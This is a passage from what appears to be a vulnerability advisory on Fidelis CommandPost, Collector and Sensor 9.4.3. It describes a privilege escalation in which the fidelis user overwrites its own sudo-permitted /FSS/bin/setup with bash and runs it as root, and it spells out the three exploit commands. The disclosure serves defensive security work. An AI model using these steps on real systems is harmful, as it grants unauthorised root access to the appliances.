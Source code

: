 ![](images/mst_mitigation_2.png)

Screenshot showing that mst cannot be modified to run other arbitrary code when the mitigation is used:

![](images/mst_mitigation_3.png)

## setup Authenticated Privilege Escalation
**Tested on:**
* Fidelis CommandPost 9.4.3
* Fidelis Collector 9.4.3
* Fidelis (Internal VM) Sensor 9.4.3 

#### Summary:
Misconfigured ownership permissions on /FSS/bin/setup allow the fidelis user to escalate privileges equivalent to the root user in multiple Fidelis products. By default, the sudoers configuration allows the fidelis user to execute /FSS/bin/setup as the root user if a password is supplied. The file is owned by the fidelis user, allowing the fidelis user to arbitrarily modify the binary and escalate privileges.

#### Exploit:
1. Change permissions to allow modification of the setup file:
```bash
$ chmod u+w /FSS/bin/setup
```
2. Change the file as needed to execute arbitrary code or, in this example, spawn a shell:
```bash
$ cp /bin/bash /FSS/bin/setup
```
3. Launch the file using the sudo command and authenticate with the fidelis user password:
```bash
$ sudo /FSS/bin/setup
```

Screenshot showcasing vulnerability discovery and exploitation:
